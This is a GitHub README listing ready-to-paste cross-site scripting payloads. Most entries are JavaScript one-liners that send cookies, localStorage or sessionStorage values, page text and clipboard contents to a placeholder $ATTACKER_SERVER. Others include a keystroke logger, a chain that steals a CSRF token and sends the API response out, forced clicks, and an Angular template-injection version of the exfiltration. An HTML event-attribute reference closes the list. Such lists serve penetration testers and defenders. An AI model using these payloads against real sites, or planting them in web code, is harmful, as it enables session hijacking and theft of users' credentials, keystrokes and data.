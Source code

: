 # Practical XSS Payloads
## ☕ ABOUT
Originally this started as just a little list of PoC payloads but it has now expanded to some more general notes as well. This now contains easy copy & paste PoC payloads as well as quick references for what HTML tags frequent event attributes use. 

### **Quick-navigation:**
+ **EXFILTRATION:**  
  + [FETCH](#fetch)  
  + [.$GET](https://github.com/Insecurities/PracticalXSSPayloads#jquery-ajax)
+ **FORCING ACTIONS:**
  + [CLICK](https://github.com/Insecurities/PracticalXSSPayloads#forcing-actions)
+ **SETTING ITEMS:**
  + [DOCUMENT.COOKIE](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#via-documentcookie)
  + [WINDOW.LOCALSTORAGE](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#via-windowlocalstorage)
+ **EVENT ATTRIBUTES:**
  + [ONLOAD](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onload)
  + [ONERROR](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onerror)
  + [ONMOUSEOVER](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onmouseover)
  + [ONSELECT](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onselect)
  + [ONKEY/UP/DOWN/PRESS](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onkeyupdownpress)
+ **ANGULAR NOTE**
  + [PAYLOADS FOR ANGULAR](https://github.com/Insecurities/PracticalXSSPayloads#angular)

# 👁️‍🗨️ EXFILTRATION
*For session hijacking, sensitive info exfil, etc.*
## FETCH
### GET VALUE FROM LOCAL STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $FETCH
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```
### GET COOKIES, POST $FETCH AND EXFIL RESPONSE (Good for exfiltrating data from response pages or where you might not be able to compromise cookies but leverage a CSRF token thats accessible)
```javascript
var data ={"YOUR_JSON":"SOMEVALUE"};var value=('; '+document.cookie).split(`; CSRF-TOKEN=`).pop().split(';')[0];fetch('/SENSITIVE_API_ENDPOINT',{method:'POST',headers: {'X-CSRF-Token':value,'Content-Type':'application/json;charset=utf-8',},body:JSON.stringify(data),}).then(response=>response.json()).then(data =>{fetch("https://{ATTACKER_SERVER}/key?"+JSON.stringify(data));});
```
### GET TEXT FROM PAGE AND $FETCH *(might be constrained by data length - use .slice() to shorten)*
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```
### GET CONTENT FROM CLIPBOARD AND $FETCH *(Will prompt user for Clipboard perms if not already set)*
```javascript
setTimeout(async()=>fetch("https://$ATTACKER_SERVER/?copy="+(await window.navigator.clipboard.readText())), 1000)
```
### KEYLOGGER WITH $FETCH *(Script modified from Chentetrans logger)*
```javascript
var l = ""; document.onkeypress = function(e){;l+=e.key;fetch("https://$ATTACKER_SERVER/?q="+ l);}
```
## JQuery AJAX
### GET VALUE FROM LOCAL STORAGE AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $.GET:
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```  
### GET TEXT FROM PAGE AND $.GET *(might be constrained by data length - use .slice() to shorten)*
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```

# 💥 FORCING ACTIONS
*For forcing users to preform a certain action. This is tricky because every app is going to be different and thus these will require **modification**.*
### CLICK ELEMENT BY ID
```javascript
document.getElementById("$TARGET_ELEMENT_ID").click()
```

# 🏠 SETTING ITEMS
*Sometimes you may want to set items in the browsers storage for vulnerability chains or persistence.*

**NOTE:**
For persistence or certain vulnerability chains you'll want to make sure you set an appropriate path (i.e `/`). For the purpose of these examples I've included the root path.
### VIA document.cookie
```javascript
document.cookie="cookieName=cookieValue>;Path=/"
```
### VIA window.localStorage
```javascript
window.localStorage.setItem('itemName', 'itemValue');
```

# 📔 EVENT ATTRIBUTES
*Something super crucial about event attributes is that **not every HTML tag is going to support the same event attributes**. So when you have injection into a div and you're trying to use `onload()` it's not going to work.*

#### `ONLOAD`
```html
<body>
<frame>
<frameset>
<iframe>
<img>
<link>
<script>
<style>
<svg>
```
#### `ONERROR`
```html
<img>
<object>
<link>
<script>
```
#### `ONMOUSEOVER`
```HTML
ALL ELEMENTS EXCEPT:
<base>, <bdo>, <br>, <head>, <html>, <iframe>, <meta>, <param>, <script>, <style>, and <title>
```
#### `ONSELECT`
```html
<input>
<textarea>
```
#### `ONKEY/UP/DOWN/PRESS`
```html
ALL ELEMENTS EXCEPT:
<base>, <bdo>, <br>, <head>, <html>, <iframe>, <meta>, <param>, <script>, <style>, and <title>
```

# ANGULAR
For Angular template injection you should be able to use the above payloads in conjunction with constructors. You can find an example below.
### GET VALUE FROM SESSION STORAGE AND FETCH
```javascript
{{constructor.constructor('fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))')()}}
```
